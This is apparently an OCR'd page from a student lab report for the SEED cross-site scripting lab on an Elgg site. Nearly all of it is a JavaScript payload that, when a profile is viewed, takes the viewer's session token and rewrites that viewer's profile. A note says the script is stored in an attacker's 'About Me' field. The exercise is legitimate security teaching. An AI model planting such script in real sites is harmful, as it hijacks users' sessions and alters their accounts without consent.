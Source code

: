 \documentclass[12pt]{article}
\begin{document}
\begin{verbatim}
<script type="text/javascript">
    window.onload = function() {
        var ts = elgg.security.token.__elgg_ts;
        var token = elgg.security.token.__elgg_token;
        var name = elgg.session.user.name;
        var guid = elgg.session.user.guid;

        var sendurl = "/action/profile/edit";
        var myID = 59; // User ID of Samy

        // If the user is Samy, then the attack is not performed
        if (guid == myID) return;

        var formData = new FormData();
        formData.append('__elgg_token', token);
        formData.append('__elgg_ts', ts);
        formData.append('name', "Kim Jong Un");
        formData.append('description', '1905001');
        formData.append('accesslevel[description]', '1');
        formData.append('briefdescription', 'I am Samy, the worm. Catch me if you can.');
        formData.append('accesslevel[briefdescription]', '1');
        formData.append('location', 'Pyongyang');
        formData.append('accesslevel[location]', '1');
        formData.append('interests', 'Hacking, XSS, Worms, CSRF, and so on.');
        formData.append('accesslevel[interests]', '1');
        formData.append('skills', 'I can write a worm in 5 minutes. Can you?');
        formData.append('accesslevel[skills]', '1');
        formData.append('contactemail', 'catchmeifyoucan@yahoo.com');
        formData.append('accesslevel[contactemail]', '1');
        formData.append('phone', '9557134');
        formData.append('accesslevel[phone]', '1');
        formData.append('mobile', '01234567890');
        formData.append('accesslevel[mobile]', '1');
        formData.append('website', 'www.samy-worm.com');
        formData.append('accesslevel[website]', '1');
        formData.append('twitter', 'elonmusk');
        formData.append('accesslevel[twitter]', '1');
        formData.append('guid', guid);

        var ajax = new XMLHttpRequest();
        ajax.open("POST", sendurl, true);
        ajax.setRequestHeader("Host", "www.seed-server.com");
        ajax.send(formData);
    }
</script>
\end{verbatim}

In both the cases, we place the malicious script in Samy's ``About Me'' section's ``Edit HTML'' format like the previous task.
\end{document}
